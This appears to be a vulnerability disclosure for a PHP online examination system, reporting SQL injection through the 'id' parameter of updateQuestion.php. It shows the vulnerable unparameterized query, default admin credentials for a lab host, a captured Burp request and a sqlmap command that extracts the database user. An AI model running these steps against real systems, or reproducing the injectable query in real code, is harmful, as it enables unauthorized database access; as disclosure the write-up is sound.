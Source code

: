 ## Online Examination System With Timer

## SQL Injection on `updateQuestion.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/facebox_modal/updateQuestion.php
```

The potential injection point is located in `updateQuestion.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# updateQuestion.php
<?php 
	include("../../../conn.php");
	$id = $_GET['id'];
	$selCourse = $conn->query("SELECT * FROM exam_question_tbl WHERE eqt_id='$id' ")->fetch(PDO::FETCH_ASSOC);
?>
```

### Proof of Concept:

**Burp Request:**

```
GET /adminpanel/admin/facebox_modal/updateQuestion.php?id=1 HTTP/1.1
Host: 192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/adminpanel/admin/home.php?page=manage-examinee
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513201903968](./screenshot/image-20240513201903968.png)
